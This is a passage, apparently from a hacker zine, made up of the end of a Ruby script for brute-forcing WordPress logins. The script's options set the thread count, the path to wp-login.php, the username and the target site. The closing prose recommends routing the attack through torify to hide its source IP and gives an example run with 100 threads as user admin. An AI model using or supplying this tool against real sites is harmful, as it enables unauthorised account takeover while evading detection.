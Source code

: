       end 

      #protected 
      def build_mutations! list
        @mutations.each do |key, val|
          list.mutate key, val
        end
      end  

      def parsed_options?  
        begin
	  @opts = OptionParser.new 
          @opts.banner = "Usage: smartBruteForceWP.rb [options]" 
          @opts.on("-v", "--[no-]verbose", "Run verbosely") { |v| 
            @options.verbose = v } 
          @opts.on("-t=THREADS", "Specify the number of concurrent requests we should make.") { |t| 
            @options.threads = t } 
          @opts.on("-p=PATH", "Specify the PATH to wp-login.php.") { |p| 
            @options.path = p } 
          @opts.on("-u=USER", "Specify the USER to login as.") { |u| 
            @options.user = u } 
          @opts.on("-s=SITE", "Specify the <site> to brute force.") { |s| 
            @options.host = s } 
          @opts.parse!  

          if (@options.host.nil?) 
            raise OptionParser::MissingArgument, 
              'A subject to search for is required', caller 
          end 
        rescue OptionParser::MissingArgument 
          puts $!  
          return false 
        end 
        true 
      end 

      def output_usage 
        puts @opts 
      end 
    end 

    app = App.new ARGV 
    app.run

You may want to experiment with running this code through a the torify command
to make sure all of the requests don't come from the same ip. The default number
of child processes to generate is configurable via the -t option, but the 
default is 10 processes.  

    torify ruby ./smartBruteForce.rb -s wp28.com -t 100 -u admin

The HTZ 8 zine subversion repository [9] contains a much larger mutation
file and will be the location for any updates and branches to this 
application.
